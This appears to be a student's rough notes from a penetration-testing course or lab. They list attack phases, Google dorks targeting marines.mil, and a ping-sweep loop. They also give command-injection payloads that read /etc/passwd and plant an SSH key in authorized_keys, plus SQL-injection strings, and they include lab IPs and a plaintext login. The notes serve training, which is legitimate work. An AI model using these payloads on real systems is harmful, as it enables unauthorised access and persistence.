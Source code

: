 GREYMAN
student@10.50.39.46 9MaGX5PmoRtsLKk
http://10.50.20.250:8000/challenges

linops
10.50.36.67

Phase
1: Mission Definitin
2: recon
3: footprinting
4: Exploit
5: post exp
6: Doc misssoin

exploit-db.com
virustotal


# google hacking
site: marines.mil
site: marines.mil covid 19
site: marines.mil filetype:pdf "covid 19"

 
# Recon 
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done

# Web Exploitation

-command injection
(home box)
  ssh-keygen -t rsa
  cat .ssh/id_rsa.pub
(Target)
  ; whoami
  ; cat /ect/passwd
  ; ls -la /var/www
  ; mkdir /var/www/.ssh
  ; echo "id_rsa.pub" > /var/www/.ssh/authorized_keys
  ; cat /var/www/.ssh/authorized_keys
(home)
  ssh www-data@10.50.31.75

  ls -la /var/www/html
  
# sql

mysql
show databases;
show tables from session;
select * from session.car;
use session;
select * from car;
describe car;
select * from car UNION select tireid,name,size,cost,1,2 FROM Tires;
select id FROM users WHERE name='tom'or 1='1' AND pass='tom' or 1='1'

text Box()
ram' OR 1='1

# Reverse Engineering


url()
category=1 or 1=1
UNION SELECT 1,table_name,3 FROM information_schema.tables
